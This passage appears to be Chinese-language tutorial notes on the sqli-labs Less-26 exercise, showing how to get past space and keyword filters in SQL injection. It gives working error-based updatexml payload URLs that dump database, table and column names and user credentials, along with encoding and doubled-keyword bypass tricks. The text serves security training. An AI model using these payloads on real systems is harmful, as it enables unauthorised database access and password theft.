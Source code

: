 Less-26输入?id=`1' --+` ,没变化 ，因为都被过滤了

绕过方式

```
http://192.168.70.14:8088/Less-26/?id=1' %0A||'1
```

Less-26 用`%0a， %0b` 绕过

字符型注入，单引号闭合**'**

**`\s`过滤了空格和换行，**

> and or  ——> && ||
>
> \# --      ——> 闭合逃逸
>
> /s空格  ——> 括号



```
http://192.168.70.14:8088/Less-26/?id=-1'||updatexml(1,concat(0x7e,(select(database())),0x7e),1)||'
http://192.168.70.14:8088/Less-26/?id=-1'||updatexml(1,concat(0x7e,(select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema=database())),0x7e),1)||'
http://192.168.70.14:8088/Less-26/?id=-1'||updatexml(1,concat(0x7e,(select(group_concat(column_name))from(infoorrmation_schema.columns)where(table_schema=database()aandnd(table_name='users'))),0x7e),1)||'
http://192.168.70.14:8088/Less-26/?id=-1'||updatexml(1,concat(0x7e,(select(group_concat(username,0x7e,passwoorrd))from(users)),0x7e),1)||'
```



### 4、绕过流量分析

空格都用 url 编码来替代 `%0a，%0b，%0c，%d，%a0`

单引号的闭合 `'`用配合闭合



## **绕过去除 union 和 select 的 sql 注入及流**量分析

### **1. Mysql 基础知识介绍**

-  Mysql 中的**大小写**不敏感，大写与小写一样。用于绕过过滤黑名单。
-  Mysql 中的**十六进制**与 **URL 编码**。
-  符号和关键字替换 `and --> &&`、`or --> ||`
-  空格使用`%20` 表示、`%0a` 换行`%09` tab

### **2. 去除 union 和 select 的代码分析**

```
preg_ replace(mixed $pattern，mixed $replacement，mixed $subject)
```

执行-个正则表达式的搜索和替换。
